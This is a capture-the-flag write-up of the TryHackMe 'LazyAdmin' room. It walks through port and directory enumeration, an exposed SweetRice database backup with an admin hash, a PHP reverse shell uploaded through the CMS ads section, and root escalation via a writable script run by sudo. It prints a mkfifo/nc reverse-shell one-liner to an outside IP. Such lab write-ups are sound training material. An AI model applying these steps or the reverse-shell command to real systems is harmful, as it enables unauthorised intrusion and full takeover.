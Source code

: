 # [LazyAdmin](https://tryhackme.com/r/room/lazyadmin)

## Enumeration

We starting enumarating the open port with *nmap*.

```shell
$ sudo nmap -p- -n -Pn -sS --min-rate 2000 $IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-11 23:07 -05
Warning: 10.10.141.185 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.141.185
Host is up (0.41s latency).
Not shown: 65468 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 74.33 seconds
```

Wee see a default *apache* page, we will fuzz with *gobuster* to find directories.

```shell
$ gobuster dir -u http://10.10.141.185/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.185/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/content              (Status: 301) [Size: 316] [--> http://10.10.141.185/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

We fin the **content** dorectory.

![content](./images/content.png)

## Vulnerability Exploitation

This home page gives us a clue, **SweetRice**. searching we find that **SweetRice** is simple website management system, its github is https://github.com/sweetrice/SweetRice.

![sweetrice-github.png](./images/sweetrice-github.png)

The 2 important directories are **as** and **inc**.

In **as** we can find a login page, then we need find crendentials.

![as-login](./images/as-login.png)

In **inc** we can find a list of files and directories, and we can see a backip in the mysql_backup directory.

![mysql_backup](./images/mysql-backup.png)

Downliad the sql file, we can use: `wget http://10.10.141.185/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`. and we can find a user and hahed password.

```shell
$ grep admin mysql_bakup_20191129023059-1.5.1.sql 
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";
s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";
s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website
management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and
uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed
\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\"
s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

| user    | hahed password                   |
|---------|----------------------------------|
| manager | 42f749ade7f9e195bf475f37a44cafcb |

We use https://crackstation.net/ to cracker the hash and logging.

![dashboard](./images/dashboard.png)

Scanning the website we found that we can add files in the **ads** section. and we add the rever shell of pentestmonkey from https://www.revshells.com/.

![revshell](./images/revshell.png)

The revsehll file is in **/inc/ads/** directory.

![ads-directory](./images/ads-directory.png)

We execute the rever shell and we are inside the machine.

```shell
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.100.192] from (UNKNOWN) [10.10.141.185] 50254
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 08:08:07 up  1:04,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We can read the user flag in /home/itguy and we can see something else, we can exexute **backup.pl**.

```shell
www-data@THM-Chal:/home/itguy$ ls -al
total 148
drwxr-xr-x 18 itguy itguy 4096 Nov 30  2019 .
drwxr-xr-x  3 root  root  4096 Nov 29  2019 ..
...
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
-rw-r--r--  1 itguy itguy 8980 Nov 29  2019 examples.desktop
-rw-rw-r--  1 itguy itguy   16 Nov 29  2019 mysql_login.txt
-rw-rw-r--  1 itguy itguy   38 Nov 29  2019 user.txt
```

## Privilege Escalation

If we can see the user's privileges.

```shell 
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

We can execute the file we found and perl as root, but we can't write to the file, we'll check that.

```shell
www-data@THM-Chal:/home/itguy$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$ 
```

The **backup.pl** file execute the **copy.sh** file and we can **write** in **copy.sh**, and this file is a rever shell, we change the ip for our ip.

![root](./images/root.png)
